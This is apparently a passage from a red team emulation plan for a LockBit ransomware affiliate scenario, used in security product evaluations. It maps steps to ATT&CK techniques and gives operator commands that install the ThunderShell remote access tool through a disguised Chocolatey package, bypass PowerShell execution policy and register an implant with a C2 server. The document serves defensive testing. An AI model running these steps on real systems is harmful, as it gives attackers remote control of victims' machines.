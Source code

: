 > :information_source: **NOTE:** Not all techniques listed in this table
directly map to evaluation substeps

| Red Team Activity | Source Code Link | ATT&CK Technique | Relevant CTI Report |
| ----------------- | ---------------- | ---------------- | ------------------- |
| LockBit affiliate accesses Linux host over SSH | - | T1021.004 Remote Services: SSH | - |
| LockBit affiliate enumerates VMs | - | T1057 Process Discovery | [Trend Micro](https://www.trendmicro.com/en_th/research/22/a/analysis-and-Impact-of-lockbit-ransomwares-first-linux-and-vmware-esxi-variant.html) |
| LockBit affiliate stops VMs and autostart | - | T1489 Service Stop | [Trend Micro](https://www.trendmicro.com/en_th/research/22/a/analysis-and-Impact-of-lockbit-ransomwares-first-linux-and-vmware-esxi-variant.html) |

## Step 6 - Privilege Escalation and Command & Control (Evaluation Step 14)

### :microphone: Voice Track

The LockBit affiliate ingresses ThunderShell, a PowerShell based remote access
tool, using chocolatey. The LockBit affiliate then opens PowerShell with
administrative privileges and executes ThunderShell.

ThunderShell establishes communications over HTTP to the adversary C2 server.

### :biohazard: Procedures

* Within the elevated Command Prompt, execute `chocolatey` to download
`ThunderShell`

    ```bat
    choco install Termini -y
    ```

* :camera: Screenshot the installation output.

* Search for PowerShell and right-click to Run as Administrator

* Paste the following commands into the PowerShell Window and press enter

    ```PowerShell
    Set-ExecutionPolicy bypass
    import-module C:\ProgramData\chocolatey\lib\Termini\tools\termini.ps1
    ```

* Press [A] or [Y] and press [ENTER] when prompted.

* Minimize all windows on `quirrell (10.111.9.202)` then minimize the VNC

* :arrow_right: Switch to Kali and confirm in the ThunderShell C2 tab the
C2 registration of a new ThunderShell implant

* :camera: Screenshot the Thundershell terminal window showing the new session.

### :mag: Reference Code & Reporting

> :information_source: **NOTE:** Not all techniques listed in this table
directly map to evaluation substeps
